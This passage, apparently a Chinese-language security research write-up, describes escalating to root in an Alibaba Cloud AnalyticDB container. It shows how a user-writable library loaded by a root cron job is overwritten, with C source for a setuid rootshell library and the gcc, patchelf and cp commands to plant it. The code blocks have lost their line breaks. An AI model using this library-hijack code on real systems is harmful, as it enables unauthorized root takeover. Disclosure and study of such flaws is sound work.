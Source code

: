 查看libgcc_s.so.1库的信息，它归用户所有adbpgadmin，可以被覆盖！

  *   * 

    
    
    $: ls -alh /u01/adbpg/lib/libgcc_s.so.1 -rwxr-xr-x 1 adbpgadmin adbpgadmin 102K Oct 27 12:22 /u01/adbpg/lib/libgcc_s.so.1

可以用我们自己的共享库覆盖这个文件，那么下次 cronjob 任务执行二进制文件时，我们库的代码将以 root 身份执行！

为了利用这种行为，我们遵循了以下步骤：

  1. 编译了一个共享库，将其复制/bin/bash并/bin/dash使其成为 SUID，这样我们就可以以 root 身份执行代码。

  2. 使用PatchELF实用程序向库添加依赖项libgcc_s.so.1。这样当它被加载时，我们自己的库也会被加载。

  3. 覆盖了原来的libgcc_s.so.1库。

  4. 等待/usr/bin/tsar被执行。

我们的策略最终成功了，授予我们 root 访问权限。

>
> 这是一个很常见的提权技巧，它利用了计划任务在执行时会加载一些依赖库的特点，如果这些依赖库可以被普通用户修改或者替换，那么就可以植入恶意代码，从而在计算任务运行时以root权限运行。用ldd命令查看程序所依赖的共享列表

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <stdio.h>#include <stdlib.h>#include <unistd.h>  
    void backup(){  if (setuid(0) == 0) // 设置用户ID为0  {    system("/bin/bash"); // 调用bash命令  }  else  {    perror("setuid failed");  }}

  *   *   *   *   *   * 

    
    
    gcc -fPIC -c rootshell.cgcc -shared -o librootshell.so rootshell.ocp /bin/bash /bin/dashpatchelf --set-interpreter ./librootshell.so dashcp librootshell.so /u01/adbpg/lib/libgcc_s.so.1最后，等待/usr/bin/tsar被执行

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230617194532.png)

这里完成了第一步，通过计划任务提升至root权限

通过调用阿里云门户中的某些操作（例如启用 SSL 加密），我们观察到 SCP 和 SSH 等多个进程的产生。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230617194533.png)

启用/禁用 SSL 加密的选项

  *   *   *   *   *   * 

    
    
    # Command lines of the spawned processessu - adbpgadmin -c scp /home/adbpgadmin/xxx_ssl_files/* *REDACTED*:/home/adbpgadmin/data/master/seg-1/   
    /usr/bin/ssh -x -oForwardAgent=no -oPermitLocalCommand=no -oClearAllForwardings=yes -- *REDACTED* scp -d -t /home/adbpgadmin/data/master/seg-1/
